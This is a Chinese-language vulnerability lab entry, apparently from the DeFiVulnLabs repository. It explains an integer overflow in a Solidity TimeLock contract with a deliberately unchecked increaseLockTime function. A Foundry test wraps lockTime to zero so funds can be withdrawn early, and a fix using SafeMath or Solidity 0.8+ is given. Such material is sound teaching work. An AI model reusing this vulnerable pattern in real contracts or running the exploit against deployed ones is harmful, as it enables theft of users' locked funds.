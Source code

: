 # 整数溢出
[Overflow.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Overflow.sol)  
**名称：** 整数溢出  
**描述：**  
TimeLock智能合约的代码存在一个缺陷，这个缺陷导致攻击者可以提前从TimeLock合约中提取存入的资金。该漏洞是因为increaseLockTime函数产生溢出，攻击者可以通过溢出来控制锁仓时间，这使攻击者能够在实际的锁仓时间到期之前就提取资金。  


**场景：**     
这个智能合约是为了充当时间保险库  
用户可以将资金存入合约，但是至少要等1周才能取出  
用户还可以在这1周锁仓时间的基础上延长锁仓时间


1. 假设Alice和Bob都有1个以太币 
2. 部署TimeLock合约  
3. Alice和Bob都向TimeLock合约存入1个以太币，他们需要等待1周才能取出存入的以太币  
4. Bob导致他的lockTime溢出，Alice因为时间锁还未到期，所以她不能取出她的存入的这1个以太币。  
5. 因为Bob的lockTime溢出为0了，所以他可以取出他刚刚存入的这1个以太币 

**发生什么了？**  
攻击导致TimeLock.lockTime溢出，并且使得攻击者能够在1周的锁仓时间之前就取出资金。  
Import: 低于0.8的Solidity版本中，没有SafeMath库  

**修复建议：**  
为了解决溢出问题，可以使用SafeMath库或者使用高于0.8的Solidity版本  


**TimeLock 合约：**  
```solidity
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease; // 漏洞
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(
            block.timestamp > lockTime[msg.sender],
            "Lock time not expired"
        );

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```  
**如何测试：**  
forge test --contracts src/test/Overflow.sol -vvvv  
```solidity
// 这个testOverflow 函数, 用于测试溢出漏洞
    function testOverflow() public {
        // 记录Alice的余额
        console.log("Alice balance", alice.balance);
        // 记录Bob的余额
        console.log("Bob balance", bob.balance);

        // 记录"Alice存入1个以太币"
        console.log("Alice deposit 1 Ether...");
        // 将消息发送者设置为Alice
        vm.prank(alice);
        // Alice向TimeLock合约存入1个以太币
        TimeLockContract.deposit{value: 1 ether}();
        // 记录Alice的新余额
        console.log("Alice balance", alice.balance);

        // 记录"Bob存入1个以太币"
        console.log("Bob deposit 1 Ether...");
        // 将消息发送者设置为Bob
        vm.startPrank(bob);
        // Bob向TimeLock合约存入1个以太币
        TimeLockContract.deposit{value: 1 ether}();
        // 记录Bob的新余额
        console.log("Bob balance", bob.balance);

    
        //漏洞利用：增加锁定时间，使其溢出并变为0。
        TimeLockContract.increaseLockTime(
            type(uint).max + 1 - TimeLockContract.lockTime(bob)
        );

        // 记录"Bob将成功取款，因为锁定时间已溢出"。
        console.log(
            "Bob will successfully withdraw, because the lock time is overflowed"
        );
        // Bob取款
        TimeLockContract.withdraw();
        // 记录Bob的新余额
        console.log("Bob balance", bob.balance);
        // 停止Bob的攻击
        vm.stopPrank();

        // 记录Alice的攻击
        vm.prank(alice);
        // 记录"Alice将无法取款，因为锁定时间尚未到期"。
        console.log(
            "Alice will fail to withdraw, because the lock time did not expire"
        );
        //尝试取款Alice的资金。由于锁定时间尚未到期，这应该会导致回滚。
        TimeLockContract.withdraw(); // 预期会回滚
    }
```  
**红色框：** TimeLock.lockTime发生溢出  
**紫色框：** 溢出已修复
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fd444eaff-b1ef-4171-8890-76186c4de58a%2FUntitled.png?table=block&id=6ec73bdb-955c-42b4-a7c6-5bce2bf97805&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
